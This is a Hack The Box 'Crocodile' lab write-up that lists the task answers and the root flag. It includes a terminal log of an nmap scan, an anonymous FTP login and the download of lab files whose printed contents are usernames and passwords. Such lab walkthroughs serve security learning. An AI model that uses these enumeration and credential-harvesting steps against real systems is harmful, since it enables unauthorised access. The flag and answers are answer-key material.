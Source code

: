 #### What Nmap scanning switch employs the use of default scripts during a scan?
-sC

#### What service version is found to be running on port 21?
vsftpd 3.0.3

#### What FTP code is returned to us for the "Anonymous FTP login allowed" message?
230

#### After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?
anonymous

#### After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?
get

#### What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?
admin

#### What version of Apache HTTP Server is running on the target host?
Apache httpd 2.4.41

#### What switch can we use with Gobuster to specify we are looking for specific filetypes?
-x

#### Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?
login.php

#### Submit root flag
c7110277ac44d78b6a9fff2232434d16

```
despues de extraer las listas vamos a login.php para ingresar la cuenta de admin.
```

``` bash

┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $sudo nmap -sC -sV 10.129.104.41
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-31 05:24 CST
Nmap scan report for 10.129.104.41
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.59 seconds
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $ftp 10.129.104.41
Connected to 10.129.104.41.
220 (vsFTPd 3.0.3)
Name (10.129.104.41:ramdark): 
530 This FTP server is anonymous only.
Login failed.
ftp> ^C
ftp> ^Z
[3]+  Stopped                 ftp 10.129.104.41
┌─[✗]─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $
┌─[✗]─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $ftp 10.129.104.41
Connected to 10.129.104.41.
220 (vsFTPd 3.0.3)
Name (10.129.104.41:ramdark): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> user
(username) as
530 Can't change from guest user.
Login failed.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (358.0729 kB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0.00 secs (500.3874 kB/s)
ftp> exit
221 Goodbye.
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $ls
allowed.userlist  allowed.userlist.passwd  Crocodile.md  document.pdf
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/crocodile]
└──╼ $





``` 